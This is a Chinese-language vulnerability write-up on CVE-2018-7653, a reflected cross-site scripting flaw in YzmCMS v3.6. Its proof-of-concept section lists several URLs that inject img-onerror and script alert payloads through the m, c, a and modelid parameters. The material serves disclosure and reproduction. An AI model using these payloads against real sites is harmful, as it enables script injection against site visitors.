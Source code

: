 ```yaml
---
title: "（CVE-2018-7653）YzmCMS v3.6 xss漏洞"
id: zhfly3304
---
```


# （CVE-2018-7653）YzmCMS v3.6 xss漏洞

## 一、漏洞简介

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS 3.6版本中存在跨站脚本漏洞。远程攻击者可借助‘a’、‘c’或‘m’参数利用该漏洞注入任意的Web脚本或HTML。

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

### poc

```
http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=initxqb4n%3Cimg%20src%3da%20onerror%3dalert(1)%3Ecu9rs&modelid=1&q=tes 

[http://www.0-sec.org/YzmCMS/index.php?m=search&c=indexf9q6s<img%20src%3Da%20onerror%3Dalert(1)>j4yck&a=init&modelid=1&q=tes](http://www.0-sec.org/YzmCMS/index.php?m=search&c=indexf9q6s%3cimg%20src%3da%20onerror%3dalert(1)%3ej4yck&a=init&modelid=1&q=tes)

[http://www.0-sec.org/YzmCMS/index.php?m=searchr81z4<img%20src%3Da%20onerror%3Dalert(1)>o92wf&c=index&a=init&modelid=1&q=tes](http://www.0-sec.org/YzmCMS/index.php?m=searchr81z4%3cimg%20src%3da%20onerror%3dalert(1)%3eo92wf&c=index&a=init&modelid=1&q=tes) `[http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd"><script>alert(1)<%2Fscript>opzx0&q=tes](http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eopzx0&q=tes)` 
```

## 参考链接

> https://www.anquanke.com/vul/id/1124944